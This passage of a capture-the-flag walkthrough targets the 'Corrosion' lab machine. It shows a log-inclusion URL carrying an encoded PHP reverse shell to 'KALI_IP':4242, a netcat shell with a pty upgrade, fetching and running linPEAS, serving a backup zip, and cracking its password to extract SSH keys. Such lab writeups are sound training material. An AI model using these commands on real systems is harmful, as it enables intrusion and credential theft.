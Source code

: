 **Use the encoding after the cmd parameter and visit the site:**

> http://192.168.5.119/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22KALI\_IP%22%2C4242%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

**Once [[reverse shell]] is connected using *netcat*, get a better interactive shell:**

```bash
listening on [any] 4242 ...
connect to [192.168.5.10] from (UNKNOWN) [192.168.5.120] 45710
python3.9 -c 'import pty; pty.spawn("/bin/bash")'
www-data@corrosion:/var/www/html/blog-post/archives$ 

Determining whether we're in an interactive shell:
[[ $- == *i* ]] && echo 'Interactive' || echo 'not-interactive'

Determining whether we're in a login shell:
shopt -q login_shell && echo 'login' || echo 'not-login'
```

>[!Optional] 
>Use the [[better shell]] upgrade from netcat with magic method to get a python TTY to a fully interactive shell with tab complete, bash history, working left/right arrow keys, CTRL+C, etc:

**Move to */tmp* directory for write access so you can download and run *[[Linpeas]]* to discover a world-readable backup file at */var/backups/user\_backup.zip.*:**

```bash
www-data@corrosion:/var/www/html/blog-post/archives$ cd /tmp
www-data@corrosion:/tmp$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
www-data@corrosion:/tmp$ chmod +x linpeas_linux_amd64
www-data@corrosion:/tmp$./linpeas_linux_amd64
...
-rw-r--r-- 1 root root 3285 Jul 30  2021 /var/backups/user_backup.zip
...
```

**Launch a python web server to serve the backup file for downloading:**

```bash
www-data@corrosion:/tmp$ cd /var/backup
www-data@corrosion:/var/backup$ python -m http.server 8080
```

**Download the backup file onto *kali* from *[http://192.168.5.120:8080/user\_backup.zip](http://192.168.5.120:8080/user_backup.zip?ref=rootandbeer.com)***

**Use *[[fcrackzip]]* to crack the zip file password:**

```bash
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt user_backup.zip
PASSWORD FOUND!!!!: pw == !randybaby
```

**Unzip the backup file using the cracked password:**

```bash
└─$ unzip user_backup.zip
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c  
  ```
